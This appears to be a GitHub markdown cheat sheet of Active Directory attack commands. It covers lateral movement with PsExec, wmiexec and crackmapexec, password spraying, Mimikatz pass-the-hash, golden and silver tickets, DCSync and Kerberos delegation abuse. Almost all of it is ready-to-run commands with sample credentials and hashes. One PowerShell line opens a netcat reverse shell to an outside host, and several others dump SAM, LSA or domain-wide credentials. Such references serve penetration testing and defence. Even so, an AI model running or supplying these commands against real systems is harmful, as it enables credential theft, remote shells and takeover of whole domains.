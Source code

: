 ### lateral movement
| for Example |
| -------------|
| PsExec64.exe \\192.168.1.104 -u administrator -p forever cmd |
| psexec \\192.168.122.66 -u Administrator -p 123456Ww ipconfig|
| psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t ipconfig |
| PsExec64.exe \\ninja.corp cmd |
| psexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig |
| wmiexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig |
| crackmapexec 192.168.100.1/24 |
| crackmapexec cme-hosts.txt --shares |
| cme-hosts.txt -u username.txt -p password.txt --shares |
|crackmapexec 192.168.100.10 -u Administrator -p 'Passw0rd!' -x "net users" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -p 'Passw0rd!' -x "net users" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -x "hostname" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -x "hostname" |
| crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 --sam            |
| crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 --lsa            |
| pth-rpcclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 |
| python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 Administrator@192.168.100.10 #with hash |
| python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -just-dc acmebank.loca/Administrator@192.168.100.10 |

|  Password Spraying Attack |
| ------------- |
| crackmapexec smb 192.168.1.1  -d ninja.corp -u MeME -P /usr/share/wordlists/rockyou.txt|
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| crackmapexec smb 192.168.1.1 -u MeMe -H NTHASH |
|crackmapexec smb 192.168.1.1 -u '' -p '' #NULL Sessions|
|spray.sh -smb 192.168.1.1 users.txt /usr/share/wordlists/rockyou.txt  1 35 ninja.corp|
|spray.sh -owa 192.168.1.1 users.txt  /usr/share/wordlists/rockyou.txt   1 35 Request.body #OWA|
|spray.sh -ciso 192.168.1.1 usernames.txt /usr/share/wordlists/rockyou.txt 1 35 #CISCO Web VPN|
|./atomizer.py owa contoso.com 'Fall2018' emails.txt|


| PowerShell Remoting |
| ------------------- |
|$Username = 'ninja.corp\MeMe' #powershell variable |
|$Password = '123456789aA'|
|$pass= ConvertTo-SecureString -AsPlainText $Password -Force #powershell variable |
|$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass #powershell variable |
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {hostname}|
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {cmd.exe /c nc.exe -v 192.168.1.100 7777 -e cmd.exe}|





### Mimikatz 

| Pass-the-Hash  |
| ------------- |
|Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:ninja.corp  /target:ninja.corp /ntlm:a87f3a337d73085c45f9416be5787d86 /ptt "'|

|Silver Tickets  |
| ------------- |
|kerberos::golden /user:Administrator /domain:testlab.local /sid:S-1-5-21-1516486103-3973840447-1748718438 /target:ninja.corp  /rc4:47b1d9d581f29b3b43845692bd4a0322 /service:cifs /ptt|

|Golden Tickets |
| ------------- |
|kerberos::golden /user:Administrator /krbtgt:HASH_KRBTGT /domain:ninja.corp /sid:S-1-5-21-2941561648-383941485-1389968811 /sids:S-1-5-SID-SECOND-DOMAIN-519 /ptt|

|Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:evil /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:MeMe /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|

|DCSync |
| ------------- |
|lsadump::dcsync /domain:pentestlab.local /all /csv|
|Invoke-Mimikatz -Command '"lsadump::dcsync /domain:insomnia.ninja.corp /all /csv"'|
|Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'|
|Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'|


Then use `mimikatz` to load the ticket.

### Kerberos Constrained Delegation
```powershell

mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
Get-DomainComputer -TrustedToAuth | select -exp dnshostname #Identify
Get-DomainComputer previous_result | select -exp msds-AllowedToDelegateTo # Figure out exposed servie
getST.py -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password' -impersonate Administrator -dc-ip 10.10.10.10
rubeus s4u /user:user_for_delegation /rc4:user_pwd_hash /impersonateuser:user_to_impersonate /domain:domain.com /dc:dc01.domain.com /msdsspn:cifs/srv01.domain.com /ptt #with rubeus
 
```

